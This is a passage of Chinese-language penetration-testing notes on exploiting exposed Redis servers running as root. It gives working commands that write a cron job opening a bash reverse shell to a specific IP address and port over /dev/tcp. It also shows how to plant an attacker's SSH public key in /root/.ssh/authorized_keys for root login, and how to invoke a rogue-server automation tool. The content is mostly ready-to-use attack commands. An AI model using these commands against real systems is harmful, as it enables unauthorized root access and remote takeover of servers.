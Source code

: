 **注意**：部分没目录权限读写权限

### 写定时任务反弹shell

利用条件：Redis服务使用ROOT账号启动，安全模式protected-mode处于关闭状态

```
config set dir /var/spool/cron

set yy "\n\n\n* * * * * bash -i >& /dev/tcp/47.94.236.117/5555 0>&1\n\n\n"

config set dbfilename x

save
```

**注意**：

centos会忽略乱码去执行格式正确的任务计划

而ubuntu并不会忽略这些乱码，所以导致命令执行失败

### 写入Linux ssh-key公钥

利用条件：Redis服务使用ROOT账号启动，安全模式protected-mode处于关闭状态

允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器

```sql

ssh-keygen -t rsa

cd /root/.ssh/

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt

cat key.txt | redis-cli -h 目标IP -x set xxx

//以上步骤在自己的攻击机器上执行

config set dir /root/.ssh/

config set dbfilename authorized_keys

save

cd /root/.ssh/

ssh -i id_rsa root@目标IP

```
-自动化项目：

https://github.com/n0b0dyCN/redis-rogue-server

```shell
python redis-rogue-server.py --rhost 目标IP --rport 目标端口 --lhost 本机IP --lport 本机端口
```
